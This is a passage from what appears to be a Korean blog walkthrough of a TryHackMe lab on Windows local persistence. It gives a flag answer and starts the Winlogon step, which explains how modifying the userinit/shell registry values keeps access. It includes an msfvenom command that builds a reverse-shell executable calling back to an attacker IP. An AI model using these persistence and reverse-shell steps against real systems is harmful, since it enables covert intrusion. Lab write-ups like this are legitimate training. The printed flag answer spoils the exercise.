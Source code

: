 ![](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_74.png)

제 주장을 증명하기 위해 이제 셸을 갖고 있어요:

![](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_75.png)

![](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_76.png)



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

훠잇!

답변: THM'LET_ME_HOLD_THE_DOOR_FOR_YOU'

# 플래그 12

새로운 날, 새로운 IP 주소들...



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

Winlogon을 악용할 수도 있습니다. Winlogon은 인증 후 프로필을 로드하는 역할을 합니다. 핵심 개념은 위와 유사합니다. 로그인은 우리의 쉘을 비활성화합니다. 이를 달성하기 위해 레지스트리 키를 변경할 것입니다. HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ 내에서 userinit 또는 shell을 변경하여 액세스를 얻을 수 있습니다.

이 방에서는 플래그를 얻기 위해 userinit를 사용해야 합니다. 그러나 두 가지 방법 모두 동일합니다.

다시 한 번 msfvenom을 사용하여 페이로드를 생성할 것입니다:

```js
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.213.167 LPORT=4452 -f exe -o revshell.exe
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
